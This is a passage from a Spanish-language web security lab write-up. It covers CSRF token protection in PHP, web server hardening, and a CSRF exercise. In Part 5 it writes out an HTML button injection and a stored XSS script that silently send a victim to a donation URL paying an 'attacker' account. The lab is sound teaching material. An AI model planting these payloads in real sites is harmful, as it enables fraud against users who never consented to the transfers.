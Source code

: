 En el apartado b de la parte 1 suplantamos la identidad de un usuario (luis). Por lo que no estaba asegurada correctamente. La mejor opción para evitar esto sería implementar una función de generación y validación de tokens (CSRF).  

```php
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
# On logout
if (isset($_POST['Logout'])) {
    # Verificar que el token este presente
    if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
        die('El token csrf es inválido o no está presente');
    }
```


# Parte 4 - Servidores web

Para reducir el riesgos de ataques podríamos implementar algunas medidas de seguridad en el servidor web. 

Habilitar la conexiones seguras de HTTPS a través del puerto 443 para acceder de forma segura con certificaciones. 

Creación de un firewall el cuál  filtre posible trafico indeseado o rangos de IPs indeseadas, nos proteja contra posibles ataques de denegación de servicio y permitir solo tráfico HTTPS. 

También se podría administrar los permisos de los diferentes directorios del servidor para evitar accesos indeseados de usuarios a recursos que no deben estar accesibles. 

# Parte 5 - CSRF

- a)

Para realizar esta tarea insertaremos un botón con código HTML en el campo `Team name` del `insert_player.php` insertaremos el siguiente código: 
```html
<button><a href="http://web.pagos/donate.php?amount=100&receiver=attacker">Profile </a></button>
```

![1d1813724c94bb11a9841d82c9905d94.png](../../_resources/1d1813724c94bb11a9841d82c9905d94.png)

Vemos que si enviamos la consulta y nos vamos a la lista de jugadores nos sale el botón: 
![b642c34be514fdaeeae69998e432fb85.png](../../_resources/b642c34be514fdaeeae69998e432fb85.png)

- b)

| Pregunta|Respuesta|
|-|-|
|En el campo|Comentario|
|Introduzco|\<script>window.location.href = "http://web.pagos/donate.php?amount=100&receiver=attacker";\</script>|
